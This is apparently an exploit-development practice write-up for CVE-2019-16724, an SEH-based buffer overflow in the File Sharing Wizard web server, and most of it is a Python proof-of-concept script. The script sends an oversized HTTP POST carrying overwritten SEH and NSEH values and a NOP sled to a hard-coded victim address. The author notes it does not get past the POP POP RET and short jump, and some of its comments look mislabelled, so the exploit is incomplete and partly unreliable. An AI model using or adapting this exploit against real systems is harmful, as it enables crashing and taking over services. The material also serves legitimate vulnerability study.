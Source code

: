 ## File sharing wizard SEH overflow writeup

```
[Attack Vectors]
When sending a remote HTTP POST request to the web-servers
application, an attacker can obtain arbitrary code execution by
sending to much data and exploiting a SEH based buffer overflow.
```

Exploit-db page: 

Assigned CVE ID : CVE-2019-16724


### Popping calculator:

[proof](https://raw.githubusercontent.com/nu11pwned/Windows-Exploit-Development-practice/master/CVE-writeups/CVE-2019-16724/proof-calc.png?token=ANBXOJYWDV3252FSZYUNWWK5RFUSQ)

----
### Proof of concept exploit: 
```python

import socket
from struct import *

# File-sharing-wizard-seh

#-----------------------------------------------------------------#
#	Bad characters: \x00					  #
#	SEH value:  0x909032EB  (JMP short)			  #
#	NSEH value: 0x909032EB	(POP POP RET)			  #
#-----------------------------------------------------------------#

#  Assigned CVE ID : CVE-2019-16724


#  cant get passed POP POP RET and short jump

victim_host = "10.0.0.213"
victim_port = 80


nseh = pack ('<I',0x909032EB) # Short jump 
seh = pack('I',0x7c38a67f)	# POP POP RET

exploit_payload  = "A" * 1040
exploit_payload += nseh
exploit_payload += seh
exploit_payload += "\x90" * 100
exploit_payload += "D" *(5000 - len(exploit_payload))

payload_header  = "POST " + exploit_payload
payload_header +=" HTTP/1.0\r\n\r\n"

# overflowed SEH handler - 42386942 : [*] Exact match at offset 1044

# POP POP RET - 7C37BBB5
# Log data, item 24
# Address=7C37BBB5
# Message=  0x7c37bbb5 : pop ecx # pop ecx # ret 0x08 |  {PAGE_EXECUTE_READ} [MSVCR71.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v7.10.6030.0 (C:\Program Files\File Sharing Wizard\bin\MSVCR71.dll)

try:
	print("""
	--------------------------------
	CVE-2019-16724 proof of concept
	Author: Nu11pwn
	File sharing wizard SEH overflow
	--------------------------------
	""")
	expl = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	print("[x] Setting up a socket connection")
	expl.connect((victim_host, victim_port))
	print("[x] Establishing a connection to the victim")
	expl.send(payload_header)
	print("[x] Sending ")
except:
	print("[!] Error establishing a connection")
	print("[!] Error sending exploit")
  ```

